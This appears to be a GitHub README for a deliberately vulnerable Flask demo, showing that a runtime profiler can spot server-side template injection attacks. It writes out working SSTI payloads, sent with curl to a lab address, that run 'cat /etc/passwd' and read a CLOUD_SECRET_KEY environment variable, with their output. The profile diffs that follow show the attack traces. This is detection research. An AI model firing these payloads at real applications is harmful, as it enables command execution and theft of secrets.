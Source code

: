 # demo-profile-ssti

Flask application containing SSTI vulnerability.

The profiler measured normal requests, attack requests that read `/etc/passwd`, and attack requests that extract `CLOUD_SECRET_KEY` from environment variables.

Then, from the comparison of the measurement results, it was confirmed that the profiler can find traces of the attack.

## normal request

### request

```
$ curl -X POST http://192.168.0.205:80/ssti -d name="test"
test
```

### profile data

<https://github.com/hi120ki/demo-profile-ssti/blob/main/data/normal.json>

## read `/etc/passwd`

### request

```
$ curl -X POST http://192.168.0.205:80/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read()}}"
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
...
```

### profile data

The following differences were confirmed compared to normal requests.

```diff
+ { "func": "popen", "file": "/usr/local/lib/python3.10/os.py" },
+ { "func": "__init__", "file": "/usr/local/lib/python3.10/subprocess.py" },
+ { "func": "_cleanup", "file": "/usr/local/lib/python3.10/subprocess.py" },
+ { "func": "_get_handles", "file": "/usr/local/lib/python3.10/subprocess.py" },
+ { "func": "__init__", "file": "/usr/local/lib/python3.10/codecs.py" },
+ { "func": "__init__", "file": "/usr/local/lib/python3.10/codecs.py" },
```

<https://github.com/hi120ki/demo-profile-ssti/blob/main/data/steal_etc_passwd.json#L11425>

## extract `CLOUD_SECRET_KEY`

### request

```
$ curl -X POST http://192.168.0.205:80/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}"
8Z0MH8EWYMB0N439
```

### profile data

The following differences were confirmed compared to normal requests.

```diff
+ { "func": "getenv", "file": "/usr/local/lib/python3.10/os.py" },
+ { "func": "get", "file": "/usr/local/lib/python3.10/_collections_abc.py" },
+ { "func": "__getitem__", "file": "/usr/local/lib/python3.10/os.py" },
+ { "func": "encode", "file": "/usr/local/lib/python3.10/os.py" },
+ { "func": "decode", "file": "/usr/local/lib/python3.10/os.py" },
```

<https://github.com/hi120ki/demo-profile-ssti/blob/main/data/steal_cloud_secret_key.json#L9629>
